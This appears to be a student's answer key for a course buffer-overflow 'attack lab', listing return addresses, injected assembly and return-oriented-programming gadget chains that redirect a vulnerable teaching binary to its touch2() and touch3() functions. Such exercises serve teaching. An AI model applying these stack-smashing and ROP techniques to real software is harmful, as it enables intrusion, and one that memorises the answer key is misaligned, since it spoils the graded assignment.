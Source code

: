 ## Phase 1

0x401967 --> 0x4017c0

## Phase 2

Set return address of getbuf() to next byte in $rsp, i.e. ($rsp) = $rsp + 8, which point to following instructions:

```
pushq $0x4017ec       # push address of touch2() as return value
movq $0x59b997fa,%rdi # pass cookie to first argument of touch2()
ret                   # return to touch2()
```

```
movq $0x59b997fa,%rdi
ret
```

## Phase 3

byte sequence of string representation of 0x59b997fa is

```
35 39 62 39 39 37 66 61
```

### Solution 1

Stack:

```
+------------------------+
| STRING                 |
|                        |
| INSTRUCTION <<---------------+
|                        |     |
| RETURN1 ---------------------+
+------------------------+
```

Instructions:

```
pushq $0x4018fa
leaq 0x16(%rsp),%rdi
ret
```

### Solution 2

Stack

```
STRING  <--+
           |
leaq 0x16(%rsp),%rdi  <------+
                             |
ADDR2   -> touch3()          |
                             |
ADDR1 -----------------------+
```

Instructions:

```
leaq 0x16(%rsp),%rdi
ret
```

## Phase 4

Stack:

```
touch2()
movl %eax,%edi
0x59b997fa
popq %rax
```

## Phase 5

```
$STRING
touch3()
mov %eax,%edi
lea(%rdi,%rsi,1),%rax
movl %ecx,%esi
movl %edx,%ecx
movl %eax,%edx
$OFFSET
popq %rax
movq %rax,%rdi
movq %rsp,%rax
```

## Reference

In `farm.d`, there are

```
48 8d 04 37	# lea (%rdi,%rsi,1),%rax -> 0x4019d6

89 c7       # movl %eax,%edi         -> 0x4019c6
89 c2       # movl %eax,%edx         -> 0x4019dd
89 ce       # movl %ecx,%esi         -> 0x401a13
89 e0       # movl %esp,%eax
89 d1       # movl %edx,%ecx         -> 0x401a69

48 89 c7    # movq %rax,%rdi         -> 0x4019a2
48 89 e0    # movq %rsp,%rax         -> 0x401aad

58 90       # popq %rax              -> 0x4019ab

20 c0       # andb %al,%al
20 d2       # andb %dl,%dl
20 db       # andb %bl,%bl

84 c0       # testb %al,%al

38 c0       # cmpb %al,%al
38 c9       # cmpb %cl,%cl
38 d2       # cmpb %dl,%dl

08 c9       # orq %cl,%cl
08 db       # orq %bl,%bl
08 d2       # orq %dl,%dl
```
